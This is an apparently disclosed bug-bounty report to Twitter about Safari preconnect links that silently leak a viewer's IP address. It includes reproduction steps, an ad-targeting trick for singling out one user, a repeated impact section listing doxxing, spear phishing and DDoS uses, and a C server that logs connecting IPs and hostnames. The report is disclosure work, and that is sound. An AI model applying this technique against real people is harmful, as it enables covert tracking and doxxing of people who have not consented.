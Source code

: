 # Remote 0click exfiltration of Safari user's IP address

## Report Details
- **Report ID**: 1392211
- **URL**: https://hackerone.com/reports/1392211
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-11-05T07:01:11.431Z
- **Disclosed**: 2022-06-15T20:00:43.926Z

## Reporter
- **Username**: max2x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

**Summary:** A malicious actor when embedding content into Twitter content (for example, see this ████) can lookup the IP address of a user without the user consenting to loading the 3rd party domain.

**Description:** When the user loads the page and doesn't click on any content Safari preloads the ad target domain (in this case ██████████). Using that, without the user tapping on the link, my server receives a TCP connection where I extract the IP and hostname of the victim. Using that information, I can lookup their approximate address, maybe spoof an IP in their city and spearphish one of their accounts, find their telco or ISP provider and use their twitter name to take over their account, many things are possible.

The problem is caused by use of remote domain links with preconnect.

<link href="https://██████" rel="preconnect">
<link href="//███████" rel="preconnect">

I recommend a mitigation of removing preload and preconnect for 3rd party domains.

This has huge privacy and security implications. I can remotely extract a targeted user's IP address by sending them a email, text message, or just tweeting at them. They are not aware it happened, it doesn't show up in their browser history because the user doesn't tap on the 3rd party link.

Once you have mitigated this issue I will need to notify Apple.

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. I send a targeted user a link to a tweet such as https://twitter.com/██████/status/███████
2. They use Safari to open the link
3. When the user mouses over the image on a mac (or scrolls the screen on an iPhone) Safari will connect to ████.
4. My server lists out incoming TCP connections.

## Impact:

Silently exfiltrating a user's IP address remotely opens them up to lots of attacks. You may see an egg, but I see a gateway to spear phishing the user by initiating regular MITM attack (showing the login request from the same location as the user), I see it been useful to do an account takeover via their ISP or telco. I see it useful to know when a user is at home or at work, in some cases I can tell they work at a certain company. In the case of a popular streamer it opens them up to DDOS attacks by just clicking on a "safe" tweet. There are huge possibilities for doxxing individuals using this exploit.

You can also target an individual (for example an individual you know is in America somewhere) through twitter ads by adding 99 twitter handles from Japan, then the target twitter handle. That way, you know when your ad is shown if it is the target because they won't be in Japan.

The only thing to bring down the impact of this attack is it is macOS and iOS Safari only. But if you don't think this attack has high severity I can demonstrate more use cases.

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

Here is a simple C server for logging incoming connections.

```
#include <netdb.h>
/* --- server.c --- */
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <time.h>

int main(int argc, char *argv[])
{
	int listenfd = 0, connfd = 0;
	struct sockaddr_in serv_addr;

	char sendBuff[1025];
	time_t ticks;

	/* creates an UN-named socket inside the kernel and returns
	 * an integer known as socket descriptor
	 * This function takes domain/family as its first argument.
	 * For Internet family of IPv4 addresses we use AF_INET
	 */
	listenfd = socket(AF_INET, SOCK_STREAM, 0);
	memset(&serv_addr, '0', sizeof(serv_addr));
	memset(sendBuff, '0', sizeof(sendBuff));

	serv_addr.sin_family = AF_INET;
	serv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
	serv_addr.sin_port = htons(443);

	/* The call to the function "bind()" assigns the details specified
	 * in the structure 『serv_addr' to the socket created in the step above
	 */
	bind(listenfd, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

	/* The call to the function "listen()" with second argument as 10 specifies
	 * maximum number of client connections that server will queue for this listening
	 * socket.
	 */
	listen(listenfd, 10);

	while(1)
	{
		/* In the call to accept(), the server is put to sleep and when for an incoming
		 * client request, the three way TCP handshake* is complete, the function accept()
		 * wakes up and returns the socket descriptor representing the client socket.
		 */
		struct sockaddr_in client;
		unsigned int fromLen;
		connfd = accept(listenfd, (struct sockaddr*)&client, &fromLen);
printf("Client accepted: %s \n", inet_ntoa(client.sin_addr));  
		struct hostent *hostName;
struct in_addr ipv4addr;

inet_pton(AF_INET, inet_ntoa(client.sin_addr), &ipv4addr);
hostName = gethostbyaddr(&ipv4addr, sizeof ipv4addr, AF_INET);
if (hostName != NULL) {
printf("Host name: %s\n", hostName->h_name);
}


		/* As soon as server gets a request from client, it prepares the date and time and
		 * writes on the client socket through the descriptor returned by accept()
		 */
		ticks = time(NULL);
// printf(sendBuff, sizeof(sendBuff), "%.24s\r\n", ctime(&ticks));
//		printf(sendBuff, sizeof(sendBuff), "%.24s\r\n", ctime(&ticks));
		write(connfd, sendBuff, strlen(sendBuff));

		close(connfd);
		sleep(1);
	}
}

```

## Impact

Silently exfiltrating a user's IP address remotely opens them up to lots of attacks. You may see an egg, but I see a gateway to spear phishing the user by initiating regular MITM attack (showing the login request from the same location as the user), I see it been useful to do an account takeover via their ISP or telco. I see it useful to know when a user is at home or at work, in some cases I can tell they work at a certain company. In the case of a popular streamer it opens them up to DDOS attacks by just clicking on a "safe" tweet. There are huge possibilities for doxxing individuals using this exploit.

You can also target an individual (for example an individual you know is in America somewhere) through twitter ads by adding 99 twitter handles from Japan, then the target twitter handle. That way, you know when your ad is shown if it is the target because they won't be in Japan.

The only thing to bring down the impact of this attack is it is macOS and iOS Safari only. But if you don't think this attack has high severity I can demonstrate more use cases.

## Attachments
No attachments
